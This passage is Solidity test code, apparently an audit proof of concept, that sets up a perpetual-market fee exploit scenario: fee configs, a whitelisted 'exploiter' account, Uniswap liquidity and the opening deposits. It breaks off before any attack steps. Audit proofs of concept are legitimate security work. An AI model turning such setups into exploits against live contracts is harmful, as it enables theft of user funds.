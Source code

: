 ```solidity

        //fee setup
        //funding fee configs (taken from team tests) 
        config.setFundingConfig(marketId, 0.005e18, 1.3e18, address(oracle_maker));
        //borrowing fee 0.00000001 per second as in team tests
        config.setMaxBorrowingFeeRate(marketId, 10000000000, 10000000000);
        oracle_maker.setMaxSpreadRatio(0.1 ether); // 10% as in team tests
        

        //whitelist users
        oracle_maker.setValidSender(exploiter,true);
        oracle_maker.setValidSender(taker,true);
        

        //add more liquidity ($20M) to uniswap pool to simulate realistic slippage
        deal(address(baseToken), spotLp, 10000e9, true);
        deal(address(collateralToken), spotLp, 20000000e6, true);
        vm.startPrank(spotLp);
        uniswapV3NonfungiblePositionManager.mint(
            INonfungiblePositionManager.MintParams({
                token0: address(collateralToken),
                token1: address(baseToken),
                fee: 3000,
                tickLower: -887220,
                tickUpper: 887220,
                amount0Desired: collateralToken.balanceOf(spotLp),
                amount1Desired: baseToken.balanceOf(spotLp),
                amount0Min: 0,
                amount1Min: 0,
                recipient: spotLp,
                deadline: block.timestamp
            })
        );
 

        //mock the pyth price to be same as uniswap (set to ~$2000 in base class)
        pyth = IPyth(0xff1a0f4744e8582DF1aE09D5611b887B6a12925C);
        _mockPythPrice(2000,0);
    }


    function testFundingFeePOC() public {
       

        //deposit 5M collateral as margin for exploiter (also mints the amount)
        uint256 startQuote = 5000000*1e6;
       _deposit(marketId, exploiter, startQuote);
       console.log("Exploiter Quote balance at Start: %s\n", startQuote);

        //deposit to makers
        //initial HSBM maker deposit: 2000 base tokens ($4M)
       vm.startPrank(makerLp);
       deal(address(baseToken), makerLp, 2000*1e9, true);
       baseToken.approve(address(maker), type(uint256).max);
       maker.deposit(2000*1e9);

       //initial oracle maker deposit: $2M (1000 base tokens)
       deal(address(collateralToken), makerLp, 2000000*1e6, true); 
       collateralToken.approve(address(oracle_maker), type(uint256).max);
       oracle_maker.deposit(2000000*1e6);
       vm.stopPrank();

```